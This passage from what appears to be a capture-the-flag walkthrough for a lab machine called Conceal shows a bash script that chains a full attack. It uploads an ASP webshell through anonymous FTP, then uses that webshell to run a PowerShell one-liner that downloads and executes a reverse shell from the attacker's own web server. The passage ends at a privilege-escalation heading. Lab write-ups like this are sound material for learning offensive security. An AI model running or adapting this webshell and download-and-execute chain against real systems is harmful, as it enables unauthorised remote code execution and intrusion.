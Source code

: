 ```
 15 file=$3
 16 
 17 if [ ! -f ${file} ]; then
 18     echo "[-] ${file} not found"
 19     usage
 20 fi;
 21 
 22 # update ip in reverse shell
 23 sed -i "s/-IPAddress 10.10.14.[[:digit:]]\{1,3\}/-IPAddress ${ip}/" ${file}
 24 
 25 echo "[*] Starting Web Server on port $port"
 26 python3 -m http.server $port &
 27 WEB_PID=$!
 28 
 29 sleep 1  # let webserver start
 30 echo [*] Restarting IPsec VPN
 31 ipsec restart 2>/dev/null
 32 sleep 1  # wait for restart to finish
 33 ipsec up conceal | grep successfully || echo "Failed to connect IPSec VPN"
 34 
 35 echo [*] FTPing webshell to target
 36 echo '<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>' > /tmp/cmd.asp
 37 ftp -n 10.10.10.116 <<End-of-Session >/dev/null
 38 user anonymous pass 
 39 del 0xdf.asp
 40 put /tmp/cmd.asp 0xdf.asp
 41 bye
 42 End-of-Session
 43 rm /tmp/cmd.asp
 44 
 45 echo "[*] Triggering shell. Webserver should be listening on 80"
 46 curl "http://10.10.10.116/upload/0xdf.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://${ip}/${file}%27)" &
 47 
 48 sleep 4  # wait for target to connect to webserver
 49 echo "[*] Killing web server"
 50 kill -9 $WEB_PID
 51 echo "[*] Should have shell on netcat"
 52 
 53 sleep 5 # wait for error messages on failure

```

Here it is in action:

![](https://0xdfimages.gitlab.io/img/conceal-shell.gif)

## Privesc to System

### Enumeration
